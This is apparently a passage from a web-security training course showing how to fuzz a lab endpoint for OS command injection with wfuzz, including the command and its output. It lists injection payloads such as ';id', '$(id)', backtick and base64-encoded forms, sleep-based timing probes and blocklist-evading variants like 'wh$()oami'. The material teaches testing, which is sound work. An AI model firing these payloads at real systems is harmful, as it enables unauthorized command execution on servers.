 Our list includes an additional "bogus" string so we can guarantee a failed response length when fuzzing, or at least gain an interesting response, which we could render in our browser.

This is important because having a known response size when fuzzing a target endpoint is exceptionally useful when we're filtering our results for _successful_ attempts (or verbose error messages at the very least).

Now we're ready to launch our automated attack against our target endpoint. As a refresher, the endpoint we manually targeted earlier was: `http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1;wh$()oami`

We'll replace our injected whoami command with the "FUZZ" keyword, which leaves us with: `http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ`

We'll call wfuzz with a few parameters. The first (-c) tells wfuzz that we would like color in our output. The next parameter (-z file,), instructs wfuzz to use a file as a payload list input source. We then specify a full absolute path to the wordlist. Next, we would like to exclude any "not found" responses as they are erroneous. To do this, we provide the --hc parameter a value of 404. Lastly, we have the complete endpoint with the "FUZZ" keyword included.

```bash
kali@kali:~$ wfuzz -c -z file,/home/kali/SUT/OSWA/command_injection_custom.txt --hc 404 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ
Total requests: 21

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000003:   200        68 L     124 W      1156 Ch     "|id"
000000015:   200        68 L     124 W      1156 Ch     "`id`"
000000018:   200        68 L     124 W      1156 Ch     "$(id)"
000000001:   200        68 L     117 W      1113 Ch     "bogus"
000000012:   200        68 L     124 W      1156 Ch     "FAIL_INTENT||id"
000000011:   200        68 L     124 W      1156 Ch     "FAIL_INTENT|id"
000000008:   200        69 L     120 W      1167 Ch     "FAIL||i$()d"
000000005:   200        68 L     117 W      1113 Ch     "i$()d"
000000002:   200        68 L     124 W      1156 Ch     ";id"
000000017:   200        68 L     124 W      1156 Ch     "$(sleep 10)"
000000014:   200        68 L     124 W      1156 Ch     "`sleep 10`"
000000004:   200        68 L     124 W      1156 Ch     "`id`"
000000020:   200        69 L     120 W      1167 Ch     "FAIL_INTENT|`echo 'aWQK' |base64 -d`"
000000021:   200        69 L     120 W      1167 Ch     "FAIL_INTENT||`echo 'aWQK' |base64 -d`"
000000016:   200        68 L     124 W      1156 Ch     "$(sleep 5)"
000000013:   200        68 L     124 W      1156 Ch     "`sleep 5`"
000000007:   200        69 L     120 W      1167 Ch     "|i$()d"
000000019:   200        79 L     187 W      1647 Ch     ";`echo 'aWQK' |base64 -d`"
000000009:   200        78 L     184 W      1593 Ch     "&&id"
000000006:   200        79 L     187 W      1647 Ch     ";i$()d"
000000010:   200        78 L     184 W      1593 Ch     "&id"

Total time: 0
Processed Requests: 21
Filtered Requests: 0
Requests/sec.: 0
```
